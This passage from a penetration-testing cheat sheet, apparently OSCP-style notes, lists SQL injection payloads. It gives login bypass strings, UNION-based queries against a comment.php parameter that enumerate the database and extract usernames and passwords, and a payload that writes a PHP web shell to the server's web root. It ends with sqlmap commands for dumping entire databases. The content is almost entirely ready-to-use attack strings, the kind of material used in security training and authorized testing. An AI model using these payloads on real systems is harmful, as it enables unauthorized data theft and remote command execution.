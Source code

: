               name='wronguser' or 1=1;  
              name='wronguser' or 1=1 LIMIT 1;

    -   Enumerating the Database  
    
        `http://192.168.11.35/comment.php?id=738)'`  
        
        Verbose error message?  
        
        `http://$ip/comment.php?id=738 order by 1`
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  `
        
        Determine MySQL Version:  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6  `
        
        Current user being used for the database connection:
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6  `
        
        Enumerate database tables and column structures  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables  `
        
        Target the users table in the database  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where        table_name='users'  `
        
        Extract the name and password  
        
        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users ` 
        
        Create a backdoor
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE        'c:/xampp/htdocs/backdoor.php'`
        

    -   **SQLMap Examples**

      - Crawl the links
      
         `sqlmap -u http://$ip --crawl=1`
         
         `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
         
         
      - SQLMap Search for databases against a suspected GET SQL Injection 
      
        `sqlmap –u http://$ip/blog/index.php?search –dbs`

      - SQLMap dump tables from database oscommerce at GET SQL injection
      
        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps `
      
      - SQLMap GET Parameter command  
      
         `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5  `
          
      - SQLMap Post Username parameter
      
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`
           